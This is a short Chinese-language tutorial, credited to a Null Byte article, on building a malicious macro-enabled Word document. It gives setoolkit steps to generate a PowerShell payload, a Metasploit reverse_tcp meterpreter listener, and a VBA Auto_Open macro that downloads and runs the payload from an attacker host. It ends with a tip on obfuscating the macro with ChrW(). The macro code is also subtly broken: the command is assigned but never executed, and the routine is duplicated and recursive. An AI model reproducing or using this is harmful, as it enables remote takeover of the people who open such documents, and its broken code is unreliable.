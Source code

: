 ## 在Microsoft Word文档中创建和混淆病毒

`setoolkit`

`1 9 1`

`mv /root/.set/reports/powershell/x86_powershell_injection.txt /var/www/html/payload.txt`

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.103
set lport 4444
exploit
```

```visual basic
# 创建Microsoft Word文档并命名为Evil.docm
# 创建宏并插入VBA脚本
Sub Auto_Open()
    Dim exec As String
    exec = "powershell.exe""IEX ((new-object net.webclient).downloadstring('http://192.168.1.103/payload.txt'))"""
End Sub
Sub Auto_Open()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
# 注意PowerShell命令中的双引号; Visual Basic中的转义字符只是键入两次字符
```

```
# 使用ChrW() 混淆VBA脚本,允许我们键入ASCII字符值而不是实际字符本身
# 自动化程序 http://pastebin.com/bD6xEP9a
```

[原文](https://null-byte.wonderhowto.com/how-to/create-obfuscate-virus-inside-microsoft-word-document-0167780/)

